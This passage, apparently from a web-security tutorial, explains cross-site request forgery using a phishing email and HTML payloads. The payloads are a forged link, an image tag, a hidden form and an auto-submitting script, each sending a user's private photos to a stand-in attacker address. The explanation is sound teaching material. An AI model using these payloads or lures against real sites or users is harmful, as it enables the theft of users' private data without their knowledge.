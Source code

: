```
Subject: Free Subscription

Hello User,
We realize your birthday is coming up soon, we would love to offer you a free subscription for the coming month for being a loyal photos.com user.
Use this link if you are interested.
```

The link in the above message will lead to a forged URL:

```html
<a
  href="http://photos.com/transfer-images?authorize=true&destination='hacker@email.com'"
  >Grab your free subscription here</a
>
```

Even worse the attacker could use an image to perform a malicious action:

```html
<img
  src="http://photos.com/transfer-images?authorize=true&destination='hacker@email.com'"
/>
```

If `photos.com` allows image transfers with `GET` requests, such a link would authorize a transfer of private photos to the hackers' email account without the user noticing.

In a situation where image transfers were done with POST requests:

```html
<form
  action="http://photos.com/transfer-images"
  method="POST"
  ,
  id="malicious-form"
>
  <input type="hidden" name="authorize" value="true" />
  <input type="hidden" name="email" value="hacker@email.com" />
  <input type="submit" value="Click to get a free subscription!" />
</form>
```

Such a form could be embedded in an email or within a fake copy of the website. Once this link is clicked, the form would be submitted and the private images would be transferred to the hackers' email.

JavaScript can also be used to submit the above form, just by adding this extra code after the form:

```html
<script>
  document.getElementById("malicious-form").submit();
</script>
```

In this case, the form will automatically be submitted as soon as the HTML has loaded.

